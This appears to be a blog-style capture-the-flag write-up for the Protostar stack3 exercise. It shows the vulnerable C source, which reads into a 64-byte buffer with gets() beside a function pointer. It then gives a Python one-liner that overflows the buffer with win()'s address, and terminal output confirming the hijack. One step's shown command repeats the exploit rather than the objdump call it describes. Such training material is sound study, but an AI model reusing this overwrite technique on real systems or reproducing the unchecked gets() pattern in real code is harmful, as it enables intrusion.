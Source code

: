 ```yaml
---
layout: post
title: "Protostar stack03 writeup"
tags: [protostar, pwn]
comments: false
---
```


We are given a source code for this challenge.

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```
Similar idea from the other challenges but this one you have to overwrite the win() function's address after the overflow

First we need to find the address of win() you can do that with objdump -t
```
root@protostar:/opt/protostar/bin# (python -c 'print "A"*64+"\x24\x84\x04\x08"') | ./stack3
calling function pointer, jumping to 0x08048424
```

Then overflow with "A"*64+"\x24\x84\x04\x08"
```
root@protostar:/opt/protostar/bin# (python -c 'print "A"*64+"\x24\x84\x04\x08"') | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```
